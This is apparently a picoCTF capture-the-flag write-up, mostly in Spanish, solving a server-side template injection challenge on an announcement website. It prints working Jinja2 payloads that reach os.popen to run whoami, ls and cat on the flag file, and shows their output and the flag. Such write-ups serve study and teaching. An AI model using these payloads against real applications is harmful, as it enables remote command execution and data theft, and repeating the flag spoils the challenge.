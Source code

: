 I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.
_________
## Hints
* Server Side Template Injection
___________
## Solución

Se trata de una vulnerabilidad de inyección de plantillas del lado del servidor.
Entrar a la página e introducir: 
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(' **whoami** ').read() }}
->root
```

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(' **ls** ').read() }}
->__pycache__ app.py flag requirements.txt
```

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(' cat flag').read() }}
-> picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```  
